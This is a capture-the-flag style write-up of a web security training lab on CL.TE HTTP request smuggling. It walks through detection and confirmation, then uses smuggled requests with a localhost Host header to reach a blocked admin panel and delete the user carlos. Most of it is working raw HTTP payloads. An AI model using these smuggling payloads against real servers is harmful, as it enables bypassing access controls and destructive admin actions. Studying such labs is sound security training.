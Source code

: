 [Lab]()

[Explained](https://www.youtube.com/watch?v=L6GikFq4Xbc&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=6&ab_channel=JarnoTimmermans)

> **LAB Notes:**
> - frontend doesn't support TE
> - /admin panel blocked by frontend
> - Solve the lab by smuggling a request to the backend server to admin panel to delete user carlos

# Detection

```
POST / HTTP/1.1
Host: 0a8b00bf03e39aab81956ba60061001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X

```
> Timed-out (backend) -> CL.TE 

# Confirming 
#### Triggering a differential response:
```HTTP
POST / HTTP/1.1
Host: 0a8b00bf03e39aab81956ba60061001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Transfer-Encoding: chunked

3
abc
0

GET /404 HTTP/1.1
foo: x
```
Got **200 OK** but the `GET /404` is cached in the backend so:
> Immediately send a normal request and got a **404 Not Found** confirming the vulnerability
![](../../../../Pasted%20image%2020250819172142.png)

# Crafting a Request 

First, I needed to find info in the admin panel and verify if I can access it:

```HTTP
POST / HTTP/1.1
Host: 0a8b00bf03e39aab81956ba60061001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
foo: x
```

Sent this and immediately sent a normal request which is appended to the `GET /admin`:
![](../../../../Pasted%20image%2020250819173010.png)

With this restriction, I imagined I needed to use localhost as the **Host Header** value:
```HTTP
**POST / HTTP/1.1
Host: 0a8b00bf03e39aab81956ba60061001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
foo: x
```

Now, the normal request got a **400 Bad Request** : `"error":"Duplicate header names are not allowed"` referring to the Host Header since the normal request is looking like this:
![](../../../../Pasted%20image%2020250819174258.png)

## Fixing the Duplicate Header Error

#### Problem
Now, the tricky part is to get the normal request headers to not interfere with the smuggled request but, also making sure that it is correctly appended.
#### Solution
The simple way is to **make the backend interpret the normal request piece of the request as the request body**. 
For this to work, I needed to include the headers for Content-Type and Content-Length with the calculated appropriate (at least minimum) size so the request gets correctly appends and not ignored. 

#### Implement the solution and Get the Admin panel

```HTTP
POST / HTTP/1.1
Host: 0a8b00bf03e39aab81956ba60061001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

x=
```
> Minimum Size for the Content-Length is 3 (since body is 2 bytes `x=` +1 at least to append to the normal rquest)

Immediately sent the normal request and got the Admin Panel:
![](../../../../Pasted%20image%2020250819180724.png)
The deletion url endpoint for carlos:
`<a href="/admin/delete?username=carlos">`

# Executing the attack
First, sent the attack request:
```HTTP
POST / HTTP/1.1
Host: 0a8b00bf03e39aab81956ba60061001c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Transfer-Encoding: chunked

3
abc
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

x=
```
Immediately after, sent the normal request and got the successful deletion of carlos' account:
![](../../../../Pasted%20image%2020250819180413.png)